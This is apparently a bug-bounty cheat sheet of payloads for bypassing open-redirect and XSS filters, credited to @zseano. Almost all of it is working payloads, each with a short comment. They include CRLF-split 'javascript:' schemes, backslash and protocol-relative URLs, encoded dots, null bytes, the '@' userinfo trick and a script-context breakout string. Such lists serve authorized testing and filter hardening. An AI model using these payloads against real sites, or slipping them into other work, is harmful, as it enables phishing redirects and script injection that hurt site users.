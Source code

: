 Methods for bypassing filters


Every case is different with open url redirects but here are some payloads I use for getting a successful redirect / xss

java%0d%0ascript%0d%0a:alert(0)
(crlf injection to bypass javascript: being blacklisted) 

//google.com
(incase http:// is blacklisted)

https:google.com
(browsers accept this, good if // is blacklisted!)

//google%E3%80%82com
(%E3%80%82 is 。 encoded. A HUGE thanks to filedescriptor for showing me that) 

\/\/google.com/
(useful for bypassing // http:// blacklists. Browsers see \/\/ as //) 

/\/google.com/
(same as above) 

//google%00.com
(null byte to bypasses blacklist filter. can be used anywhere) 

http://www.theirsite.com@yoursite.com/
(oldie, but browsers will redirect to anything after @)

http://www.yoursite.com/http://www.theirsite.com/
(if @ is blacklisted and they check if their domain is in the param, make a folder as their domain :D)

";alert(0);//
(example from above. if the url is echo'd in a variable and we want to get xss in script tag)

..and there we have it.

Special Thank : @zseano
